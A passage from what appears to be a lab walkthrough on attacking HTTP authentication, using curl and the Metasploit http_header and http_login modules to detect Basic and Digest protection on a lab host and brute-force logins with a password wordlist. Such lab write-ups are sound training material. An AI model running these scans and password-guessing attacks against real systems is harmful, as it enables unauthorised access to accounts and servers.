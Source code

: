 > 📌 *dir* directory is using `Basic` auth protection - [WWW-Authenticate header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate)

```bash
curl http://192.199.232.3/poc
```

```html
<title>301 Moved Permanently</title>
```

![curl poc](assets/image-20230216190722430.png)

- Use [`http_header`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/http_header/) metasploit module to find the *poc* directory protection

```bash
msfconsole
```

```bash
use auxiliary/scanner/http/http_header 
set RHOSTS 192.199.232.3
set HTTP_METHOD GET
set TARGETURI /poc/
exploit
```

```bash
[+] 192.199.232.3:80     : CONTENT-TYPE: text/html; charset=iso-8859-1
[+] 192.199.232.3:80     : SERVER: Apache/2.4.18 (Ubuntu)
[+] 192.199.232.3:80     : WWW-AUTHENTICATE: Digest realm="Private", nonce="92BOH9X0BQA=373907c8c2a4e147272a81df61079fa305e185af", algorithm=MD5, qop="auth"
[+] 192.199.232.3:80     : detected 3 headers
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *poc* directory is using `Difest` auth protection

- Use [`http_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/http_login/) metasploit module to attempt HTTP user authentication

```bash
echo -e "alice\nbob\n" > /tmp/users
# to create "alice" and "bob" users list

msfconsole
```

```bash
use auxiliary/scanner/http/http_login 
set RHOSTS 192.199.232.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /dir/
exploit
```
